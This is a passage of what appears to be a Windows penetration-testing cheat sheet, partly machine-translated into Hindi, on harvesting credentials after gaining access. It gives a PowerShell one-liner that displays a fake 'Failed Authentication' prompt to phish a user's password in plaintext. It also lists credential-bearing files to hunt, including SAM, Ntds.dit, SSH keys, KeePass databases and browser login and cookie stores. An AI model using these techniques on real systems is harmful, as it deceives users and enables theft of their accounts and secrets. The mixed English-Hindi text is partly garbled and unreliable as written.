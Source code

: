 You can always **ask the user to enter his credentials of even the credentials of a different user** if you think he can know them (notice that **asking** the client directly for the **credentials** is really **रिस्की**):
```bash
$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password
$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'anotherusername',[Environment]::UserDomainName); $cred.getnetworkcredential().password

#Get plaintext
$cred.GetNetworkCredential() | fl
```
### **संभावित फ़ाइल नाम जिनमें क्रेडेंशियल्स हो सकते हैं**

जाने-माने फ़ाइलें जो कुछ समय पहले **क्लियर-टेक्स्ट** या **Base64** में **पासवर्ड** रखती थीं
```bash
$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history
vnc.ini, ultravnc.ini, *vnc*
web.config
php.ini httpd.conf httpd-xampp.conf my.ini my.cnf (XAMPP, Apache, PHP)
SiteList.xml #McAfee
ConsoleHost_history.txt #PS-History
*.gpg
*.pgp
*config*.php
elasticsearch.y*ml
kibana.y*ml
*.p12
*.der
*.csr
*.cer
known_hosts
id_rsa
id_dsa
*.ovpn
anaconda-ks.cfg
hostapd.conf
rsyncd.conf
cesi.conf
supervisord.conf
tomcat-users.xml
*.kdbx
KeePass.config
Ntds.dit
SAM
SYSTEM
FreeSSHDservice.ini
access.log
error.log
server.xml
ConsoleHost_history.txt
setupinfo
setupinfo.bak
key3.db         #Firefox
key4.db         #Firefox
places.sqlite   #Firefox
"Login Data"    #Chrome
Cookies         #Chrome
Bookmarks       #Chrome
History         #Chrome
TypedURLsTime   #IE
TypedURLs       #IE
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
```